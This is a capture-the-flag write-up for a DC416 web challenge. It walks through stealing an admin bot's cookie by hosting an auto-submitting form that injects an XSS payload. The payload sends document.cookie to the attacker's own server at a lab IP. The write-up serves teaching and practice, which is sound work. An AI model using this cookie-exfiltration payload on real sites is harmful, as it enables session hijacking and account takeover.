






## DC416 Rapid-fire CTF: WEB

> They say you can never trust the client, can you prove why?
> 
> Additional tools that might come in handy:
> 
> * Wireshark/tcpdump
> * Understanding client side attacks
>
>Challenge is located at: http://10.20.30.201


One of the DC416 Rapid CTF challenges was a web application challenge with 2 forms. 



At the top there is a red button labeled ‘Restricted Area’. Once clicked, we are presented with a javascript alert that says ‘Forbidden’. We are not allowed to access this page.  The keen eyed would notice it says ‘Logged in as guest’ at the top right of the screen, however, we didn’t even login? Weird.Maybe it’s determined by the cookie? let’s check what cookies are set.



This is easy to miss under pressure, when 100 people are behind you observing every move you do. Which is what DC416’s Rapid CTF concept is all about.

At the bottom of the form there is an admin note which mentions that the admin will visit the URL you provide once you submit the form. Interesting. If we could get the admin to visit any page we own, what can we do with it? let’s check what happens when you supply the form with our web server IP.



Cool. we get a visit on the web server from what seems to be running PhantomJS, a headless client browser.

OK, that’s good. But we can’t do anything valauble with it yet. The CTF’s landing page did mention we should be familiar with client side attacks techniques. This is a big hint for a possible XSS.
it’s time to call the cookie monster 

Cookie stealing:

The following basic html/js form will send the cookie back to us once someone visits our page, this is happening with javascript’s [document.location](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) and [document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) properties.

```
<html>
    <body>
    <form action="http://10.20.30.201" method="POST" id="f" name="f">
        <input name="url" value="<script>document.location='http://10.20.30.90/cookie?cookie='+document.cookie</script>">
        <input type="submit" />
    </form>    
    <script>
        document.forms["f"].submit();
    </script>
</body>
</html>
```

The bottom portion of the code will force the client’s browser to submit the request upon visiting our page. We host this on our web server and retry the form submission with our IP.
If all goes well, we will get a new visit by PhantomJS, with the XSS executed on the server side, and the cookie will be sent to us.

We once again point the url field to our malicious URL and hit submit, tail the access log and cross our fingers!




Oh look, we captured the admin’s cookie! **ctf=1337c00k13**

Let’s set this cookie!



And refresh the page...



The red button that said Forbidden before is now green and we have the flag!
